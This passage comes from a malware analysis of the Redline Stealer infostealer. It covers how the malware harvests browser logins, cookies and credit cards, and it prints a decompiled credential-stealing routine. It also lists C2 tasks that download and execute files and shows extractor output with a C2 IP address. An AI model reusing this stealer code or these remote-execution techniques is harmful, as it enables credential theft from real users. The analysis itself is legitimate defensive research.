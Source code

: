 *Figure 15. Redline Stealer Stealing VPN Credentials*

#### StealBrowsers

To steal browser credentials, *Redline Stealer* iterates over browser paths provided for both Chromium and Mozilla based browsers from the the configuration. To steal the data, *Redline Stealer* iterates over the directories `Login Data`, `Web Data`, `Cookies` and `Extension Cookies`. During this process *Redline Stealer* collects cookies, the browser name, the path to the `User Data` directory, saved passwords, autofill data, and credit cards. Most of the data collected from the browsers is from the sqlite database and is easily decrypted.

```csharp
public static void BrowserStealer(ConnectionProvider connection, SettingsStruct settings, ref ResultStruct result)
	{
		if (settings.Browsers)
		{
			List<BrowserCredentials> list = new List<BrowserCredentials>();
			list.AddRange(Chromium.Steal(settings.ChromiumBrowserPaths));
			list.AddRange(Mozilla.Steal(settings.MozillaBrowserPaths));
			result.SystemInfo.BrowserCredentials = list;
		}
	}
```
*Figure 16. Redline Stealer Stealing Browser Data*

#### Remote Tasks

To execute remote tasks, *Redline Stealer* makes a request to the C2 server. Next, Redline Stealer is able to perform four types of remote tasks. These remote tasks include arbitrary command execution, downloading of files, downloading and execution of files and executing files (Table 4).

| Task                        | Example                                                 | Description                             |
| --------------------------- | ------------------------------------------------------- | --------------------------------------- |
| Arbitrary Command Execution | `whoami`                                                  | Execute Command using `cmd /C <command` |
| Download File               | `http://example.com/example.exe\|%AppData%\\example.exe` | Download a File                         |
| Download and Execute        | `http://example.com/example.exe\|%AppData%\\example.exe` | Download and Execute a File             |
| Execute a File              | `C:\Users\example\example.exe`                          | Execute a File                          | 

*Table 4. Redline Stealer Remote Tasks*

### Configuration Extraction

I have created a configuration extractor, which is available [here](https://github.com/c3rb3ru5d3d53c/mwcfg-modules/blob/f1064aea63d11b5069a1839cf2b9d10d43cee1aa/redline/redline.py).

```bash
mwcfg -m modules/ -i tests/redline/676ae4b1ef05ee0ec754a970cce61a5f8d3093989a58c33087a3a5dca06364aa --pretty | jq
[
  {
    "name": "tests/redline/676ae4b1ef05ee0ec754a970cce61a5f8d3093989a58c33087a3a5dca06364aa",
    "type": "PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows",
    "mime": "application/x-dosexec",
    "md5": "396c2688c0469b0cb0d83167d27eca31",
    "sha1": "a1f91b8b153d017593119984fbce936c5113a137",
    "sha256": "676ae4b1ef05ee0ec754a970cce61a5f8d3093989a58c33087a3a5dca06364aa",
    "configs": [
      {
        "hosts": [
          "95.217.35.153:9678"
        ],
        "id": "100822",
        "family": "redline"
```